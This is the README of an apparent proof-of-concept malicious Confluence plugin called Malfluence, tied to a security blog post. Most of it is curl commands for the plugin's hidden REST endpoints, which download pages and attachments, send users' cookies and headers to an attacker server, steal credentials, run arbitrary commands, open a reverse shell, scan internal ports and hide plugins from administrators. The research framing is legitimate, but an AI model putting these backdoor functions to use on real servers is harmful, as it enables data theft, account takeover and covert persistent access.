









# Malfluence 
A PoC for a malicious Confluence plugin. Read more about this on [our blog](https://cyllective.com/blog/posts/atlassian-malicious-plugin/).

The general code may also work with slight adjustments in Jira but the plugin cannot be directly installed into Jira. 

## Features
### List & download attachments
```sh
curl "http://yourserver/rest/maintenance/latest/listattachments?accesskey=<Access Key>"

curl "http://yourserver/rest/maintenance/latest/getattachment?accesskey=<Access Key>&id=<Attachment ID>" -O
```


### List & download pages
```sh
curl "http://yourserver/rest/maintenance/latest/listpages?accesskey=<Access Key>"

curl "http://yourserver/rest/maintenance/latest/getpage?accesskey=<Access Key>&id=<Page ID>"
```


### Steal cookies
Since the cool cookies have HttpOnly set, this works by first sending a request to the custom endpoint `/getheaders`, which returns all headers base64 encoded into the DOM. Those are then sent to the attacker. 

```sh
# Configure the server which will receive POST requests of users containing base64 encoded headers
curl "http://yourserver/rest/maintenance/latest/headerexfilconfig?accesskey=<Access Key>&url=<base64 encoded target URL>&enabled={TRUE,FALSE}"
```

```sh
python3 headerserver.py
```


### Steal credentials
```sh
python3 credsserver.py
```


### Issue HTTP requests through the server
```sh
curl "http://yourserver/rest/maintenance/latest/proxy?accesskey=<Access Key>&method={GET,POST}&url=<base64 encoded URL>&headers=<base64 encoded headers (name1:value1,nameN:valueN)>&body=<base64 encoded body for POST>"
```


### Execute commands on the server
```sh
curl "http://yourserver/rest/maintenance/latest/exec?accesskey=<Access Key>&cmd=<Command to run>&args=<arg1,arg2,arg3>"
```


### Spawn a reverse TCP shell
```sh
curl "http://yourserver/rest/maintenance/latest/revshell?accesskey=<Access Key>&rhost=<Remote Host>&rport=<Remote Port>"
```


### Scan for open ports on hosts reachable by the server
```sh
curl "http://yourserver/rest/maintenance/latest/portscan?accesskey=<Access Key>&ip=<IP address>"
```


### Hide plugins from the plugin overview
```sh
curl "http://yourserver/rest/maintenance/latest/hideplugins?accesskey=<Access Key>&plugins=<com.plugin.hideme,com.plugin.hidemeto>&enabled={TRUE,FALSE}"
```
